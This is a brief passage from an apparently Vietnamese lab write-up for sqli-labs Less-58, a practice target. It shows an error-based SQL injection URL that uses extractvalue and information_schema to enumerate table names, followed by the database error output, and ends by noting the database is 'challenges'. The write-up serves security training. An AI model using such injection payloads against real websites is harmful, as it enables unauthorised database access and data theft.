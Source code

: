 

```
http://10.10.10.171/sqli-labs/Less-58/index.php?id=0'union select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=’challenges’),0x7e)) --+
```

output

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '��challenges’),0x7e)) -- ' LIMIT 0,1' at line 
```

=> db là `challenges`

làm tiếp các bước như bình thường